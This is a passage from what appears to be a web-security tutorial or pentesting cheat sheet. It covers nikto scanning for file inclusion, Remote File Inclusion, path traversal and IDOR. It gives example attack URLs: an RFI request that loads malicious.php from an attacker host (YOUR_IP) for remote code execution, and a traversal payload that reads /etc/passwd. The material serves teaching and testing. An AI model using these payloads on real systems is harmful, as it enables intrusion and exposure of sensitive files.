 Scans the target for known vulnerabilities, including possible LFI parameters.


Scan for a specific file inclusion pattern:

```
nikto -h http://example.com/index.php?page= -Tuning 4
```

-Tuning 4 focuses on file inclusion vulnerabilities.



### Remote File Inclusion (RFI)

**Remote File Inclusion** happens when a web application allows the inclusion of **files from external sources**, such as **URLs**, without validation. **RFI** is particularly dangerous because it can lead to **remote code execution**.

```
http://example.com/index.php?page=http://YOUR_IP/malicious.php
```

The server may download and execute the **malicious PHP** script hosted on our server.


### Path traversal

**Path traversal** (or **directory traversal**) occurs when an attacker manipulates file paths to access **directories** and **files** outside the intended scope. This typically involves using sequences like ../ to navigate up the directory tree.

> 📝 Note: **Path traversal** is the technique of navigating directories, while **LFI** uses this technique to actually include and execute local files within the application.

Example:

```
http://example.com/download.php?file=../../../../etc/passwd
```

By using `../` sequences, an attacker can reach sensitive **system files** or **application data**.


---

## 🔓 Access Control Issues

**Access control issues** occur when an application fails to properly enforce who can access what. This can allow attackers to **view**, **modify**, or **perform actions** on **resources** they shouldn’t have access to.

### IDOR (Insecure Direct Object References)

When an app uses predictable identifiers (**IDs**, **filenames**, **keys**) to access objects without checking if the current user is allowed.

**Example:**

```
https://example.com/profile?id=123
```
